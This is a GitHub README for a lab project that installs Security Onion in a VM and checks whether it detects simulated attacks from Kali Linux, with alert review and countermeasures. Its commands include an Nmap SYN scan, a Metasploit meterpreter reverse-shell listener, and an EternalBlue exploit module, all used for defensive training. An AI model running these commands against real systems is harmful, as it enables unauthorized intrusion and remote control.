 


## 🛡️ Project Title  
# security-onion-threat-detection

## 🎯 Objective  
The main objective of this project is to guide users in **installing and configuring Security Onion** on a virtual machine and **simulating cyber-attacks** to assess how well Security Onion detects and monitors different types of network intrusions.

## ⚙️ Tools and Technologies  
- **Security Onion** – Open-source intrusion detection, enterprise security monitoring, and log management.  
- **Virtual Machine (VM)** – Virtualized environment using **VirtualBox** or **VMware**.  
- **Kali Linux** – Used for running attack simulations.  
- **Other Tools** – **Nmap, Metasploit** for penetration testing.  

---

## 📌 Section 1: Introduction  
### **What is Security Onion?**  
Security Onion is a **Linux distribution** designed for **intrusion detection** and **network security monitoring**. It includes tools like **Suricata, Zeek, Elasticsearch, Kibana, and TheHive** for **threat detection, alerting, and analysis**.

### **Why Security Onion?**  
Security Onion offers **powerful and easy-to-use tools** for **monitoring, analyzing, and defending** against cyber threats. It is widely used for **enterprise SOCs (Security Operations Centers)** and cybersecurity training.

---

## ⚙️ Section 2: Setting Up the Virtual Machine (VM)  
### **Prerequisites**  
- A system with **at least 16GB RAM and 200GB of free disk space**.  
- **VirtualBox** or **VMware Workstation** installed.  
- **Security Onion ISO** from the [official download page](https://securityonion.net).  
- A secondary system (or VM) running **Kali Linux** for attack simulation.  

### **Installation Steps**  
#### **Step 1: Download the ISO Image**  
1. Visit the [Security Onion website](https://securityonion.net) and download the latest **ISO file**.  

#### **Step 2: Set Up the Virtual Machine**  
1. Open **VirtualBox** (or **VMware**).  
2. Create a new VM and configure it with:
   - **OS Type:** Linux (Ubuntu 64-bit)  
   - **Memory Size:** At least **16GB RAM**  
   - **Hard Disk:** **200GB** dynamically allocated  
3. Attach the downloaded ISO image.  
4. Start the VM and complete the installation wizard.  

#### **Step 3: Configure Network Interfaces**  
- Choose **Bridged** or **NAT** mode for network configuration.  
- Assign a **static IP** for easier monitoring.  

#### **Step 4: Finalizing Installation**  
- Configure **sensors and management nodes** as per project needs.  
- Choose **Standalone** or **Distributed** deployment.  
- Access the **Security Onion Web Interface** for further configurations.  

---

## ⚔️ Section 3: Simulating Attacks and Testing Detection Capabilities  
### **Prerequisites**  
- **Kali Linux** as the attack machine.  
- **Security Onion** running and monitoring network traffic.  

### **Simulated Attacks**  
#### **1️⃣ Nmap Scan**  
- **Objective:** Test if Security Onion detects **network scanning**.  
- **Tools Used:** Nmap  
- **Attack Steps:**  
  ```bash
  nmap -sS <Target_IP>
  ```  
- **Expected Outcome:** Security Onion should trigger an alert for **network scanning behavior (SYN scan)**.
![Screenshot 2025-02-17 065010](https://github.com/user-attachments/assets/98604f55-4569-4df7-a12f-1646bdc06ad6)

#### **2️⃣ Metasploit Reverse Shell Attack**  
- **Objective:** Test Security Onion's detection of **remote exploits**.  
- **Tools Used:** Metasploit Framework  
- **Attack Steps:**  
  ```bash
  msfconsole
  use exploit/multi/handler
  set payload windows/meterpreter/reverse_tcp
  set LHOST <Your_Kali_IP>
  set LPORT 4444
  exploit
  ```  
- **Expected Outcome:** Security Onion should detect the exploit attempt via **Suricata or Zeek IDS logs**.

---

## 📊 Section 4: Analyzing Results  
### **1️⃣ Review Alerts in Security Onion**  
- Log into the **Kibana Dashboard** to review alerts.  
- Check alerts from **Suricata (IDS)** and **Zeek**.  
- **Nmap Scan Detection:** Look for **PORTSCAN or SYN scan detected** alerts.  
- **Metasploit Exploit Detection:** Look for **exploit attempt logs** in Suricata and Zeek.
![Screenshot 2025-02-17 064928](https://github.com/user-attachments/assets/8447be21-a0ac-471a-9c2d-5eaabac77283)

### **2️⃣ Log Analysis**  
- Use **Suricata logs** to track detected attacks.  
- **Zeek logs** can help analyze suspicious network behavior.  
- Utilize **Elasticsearch/Kibana** for deeper investigation.
![Screenshot 2025-02-17 094516](https://github.com/user-attachments/assets/385c85c2-2489-44d0-80c9-264bf77f6e21)

### **3️⃣ Countermeasures**  
- Implement **firewall rules** to restrict unauthorized scans.  
- Use **network segmentation** to isolate critical systems.  
- Fine-tune **IDS/IPS rules** to detect and mitigate threats.  

---

## ✅ Section 5: Conclusion and Recommendations  
### **Summary of Findings**  
- Security Onion successfully detected **Nmap scanning** and **Metasploit reverse shell exploits**.  
- **Kibana dashboards** provided detailed threat insights.  
- **Suricata & Zeek logs** were useful in analyzing network traffic anomalies.

### **Recommended Improvements**  
- **Regularly update IDS/IPS signatures** to improve detection.  
- **Implement automated response mechanisms** for real-time blocking.  
- **Enhance network logging & monitoring** for better forensic analysis.

---

## 📜 Appendix A: Useful Commands and References  
### **Basic Nmap Scan Command**  
```bash
nmap -sS <Target_IP>
```

### **Metasploit Command for Exploitation**  
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST <Target_IP>
exploit
```

---

## 🚨 Disclaimer  
This project is for **educational and ethical hacking purposes only**. Always conduct penetration testing in a **controlled and authorized environment**.  
